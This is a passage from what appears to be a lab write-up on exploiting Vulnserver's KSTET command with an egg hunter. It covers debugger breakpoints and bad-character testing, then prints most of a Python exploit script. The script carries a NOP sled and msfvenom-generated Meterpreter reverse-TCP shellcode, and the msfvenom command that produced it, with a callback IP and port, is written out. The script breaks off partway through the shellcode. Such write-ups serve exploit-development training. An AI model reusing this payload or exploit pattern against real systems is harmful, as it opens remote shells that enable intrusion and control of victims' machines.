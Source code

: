 It is really amazing to watch the egg hunter work, you can set a breakpoint before the `JMP EDI` instruction which is the last instruction to execute before jumping to the egg location if found. You can also see that the egg and breakpoints in the debugger shown below.

<img src="/assets/images/vulnserver/kstet/kstet-crash-egg-and-breakpoints.png" alt="kstet-crash-egg-and-breakpoints" width="900"/>

Always test the final shellcode location for bad characters. It is a good habbit and should even be done for the location you use for the egg hunter assembly.

Besides the null terminator (`00`), I found no additional bad characters and updated the exploit with the final payload and as always a little nopsled for it.

```python
#!/usr/bin/env python

import socket
import sys

# msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.185.157 LPORT=4444 -b '\x00' -f python
egg = 'w00tw00t'
shellcode = '\x90' * 32
shellcode += '\xba\x43\xde\x96\x7d\xda\xc0\xd9\x74\x24\xf4\x5b\x31'
shellcode += '\xc9\xb1\x56\x31\x53\x13\x83\xeb\xfc\x03\x53\x4c\x3c'
shellcode += '\x63\x81\xba\x42\x8c\x7a\x3a\x23\x04\x9f\x0b\x63\x72'
shellcode += '\xeb\x3b\x53\xf0\xb9\xb7\x18\x54\x2a\x4c\x6c\x71\x5d'
shellcode += '\xe5\xdb\xa7\x50\xf6\x70\x9b\xf3\x74\x8b\xc8\xd3\x45'
shellcode += '\x44\x1d\x15\x82\xb9\xec\x47\x5b\xb5\x43\x78\xe8\x83'
shellcode += '\x5f\xf3\xa2\x02\xd8\xe0\x72\x24\xc9\xb6\x09\x7f\xc9'
shellcode += '\x39\xde\x0b\x40\x22\x03\x31\x1a\xd9\xf7\xcd\x9d\x0b'
shellcode += '\xc6\x2e\x31\x72\xe7\xdc\x4b\xb2\xcf\x3e\x3e\xca\x2c'
shellcode += '\xc2\x39\x09\x4f\x18\xcf\x8a\xf7\xeb\x77\x77\x06\x3f'
shellcode += '\xe1\xfc\x04\xf4\x65\x5a\x08\x0b\xa9\xd0\x34\x80\x4c'
shellcode += '\x37\xbd\xd2\x6a\x93\xe6\x81\x13\x82\x42\x67\x2b\xd4'
shellcode += '\x2d\xd8\x89\x9e\xc3\x0d\xa0\xfc\x8b\xe2\x89\xfe\x4b'
shellcode += '\x6d\x99\x8d\x79\x32\x31\x1a\x31\xbb\x9f\xdd\x40\xab'
shellcode += '\x1f\x31\xea\xbc\xe1\xb2\x0a\x94\x25\xe6\x5a\x8e\x8c'
shellcode += '\x87\x31\x4e\x30\x52\xaf\x44\xa6\x9d\x87\xe0\xab\x76'
shellcode += '\xd5\x12\xc5\xda\x50\xf4\xb5\xb2\x32\xa9\x75\x63\xf2'
shellcode += '\x19\x1e\x69\xfd\x46\x3e\x92\xd4\xee\xd5\x7d\x80\x47'
```